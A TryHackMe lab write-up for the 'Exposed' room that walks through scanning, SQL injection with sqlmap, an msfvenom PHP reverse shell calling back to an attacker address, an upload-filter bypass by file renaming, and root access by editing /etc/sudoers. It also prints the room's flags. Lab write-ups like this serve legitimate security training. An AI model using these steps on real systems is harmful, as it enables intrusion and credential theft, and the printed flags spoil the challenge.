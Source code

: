 # Exposed | TryHackMe Write-up

## 📝 Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

## 🔍 Enumeration

### Nmap

Quick port scan:

```bash
nmap -sC -sV -oN nmap_initial.txt <IP>
```

*Screenshot of quick Nmap scan:*  
![Nmap Quick Scan](screenshots/nmap_quick.png)

Full port scan:

```bash
nmap -p- -oN nmap_full.txt <IP>
```

*Screenshot of full Nmap scan:*  
![Nmap Full Scan](screenshots/nmap_full.png)

**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

*Screenshot of Gobuster:*  
![Gobuster](screenshots/gobuster.png)

**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

## 💉 SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.

*Burp Suite screenshot:*  
![Burp Suite](screenshots/burp_login.png)

### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```

*SQLMap screenshot:*  
![SQLMap](screenshots/sqlmap_dump.png)

**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password123`

Use them to log in to the site.

---

## 🐚 File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.

*File upload screenshot:*  
![File Upload](screenshots/file_upload.png)

URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```

*Meterpreter session screenshot:*  
![Meterpreter](screenshots/meterpreter.png)

Reverse shell obtained with `www-data` privileges.

---

## 🔐 Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

## ✅ Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

## 💡 Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
